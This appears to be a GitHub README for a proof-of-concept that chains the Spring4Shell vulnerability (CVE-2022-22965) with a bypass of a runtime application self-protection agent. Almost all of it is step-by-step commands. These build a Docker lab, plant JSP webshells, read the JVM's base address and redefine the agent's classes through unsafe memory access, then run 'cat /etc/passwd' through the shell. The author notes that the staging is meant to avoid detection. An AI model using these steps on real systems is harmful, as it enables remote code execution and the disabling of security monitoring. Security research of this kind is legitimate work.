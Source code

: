 This is a PoC where we abuse memory access through unsafe to bypass RASP. The idea is to read the base address of the libjvm and then either read also the symbol or predefine it for a known 
global variable and navigate the memory space until we reach the InstrumentationImpl object representing the agent itself and redefine classes and thus bypass RASP.

We do it step by step to avoid being detected (it looks like when the request parameter exceeds a certain treshold, we get blocked by the agent I was playing the bypass against):
1. mvn clean package
2. cd ..
3. docker build . -t  cve-2022-22965-bypass-with-instrumentation -f bypass-using-instrumentation/Dockerfile
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-bypass-with-instrumentation
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt 
7. Finally deploy your exploit that should have been blocked normally:
   `   python3 exploit-instrumentation-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="exploit" and trigger curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd".
   `
![blocked.png](blocked.png)
8. Now deploy jvm base address backdoor: 
`   python3 exploit-instrumentation-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="base", now you can get the base address using curl "http://localhost:8080/base.jsp" -> baseAddress`
![base.png](base.png)
9. Next deploy Redefine_Transformer_Manager jsp that will trigger redefining the transformerManager bytecode:
`    python3 exploit-instrumentation-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineTransformer", you should the base address provided using the first step and issue  curl "http://localhost:8080/redefineTransformer.jsp?cmd={baseAddress e.g 139963791860840}” 
`
![redefineTransformerManager.png](redefineTransformerManager.png)
10. Ok now deploy RedefineProcessBuilder using 
`  python3 exploit-instrumentation-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineProcessBuilder" and trigger the redefinition: curl "http://localhost:8080/redefineProcessBuilder.jsp?cmd={baseAddress}”
`
11. Rerun and Enjoy the bypass:
    `curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd" `
You may need to update the base address of JvmtiEnvBase::_head_environment, first ssh in the container, find / -name libjvm.so 2>/dev/null, and finally gdb /usr/local/openjdk-11/lib/server/libjvm.so + info variables and then you have it
`0x0000000000f59750  JvmtiEnvBase::_head_environment`
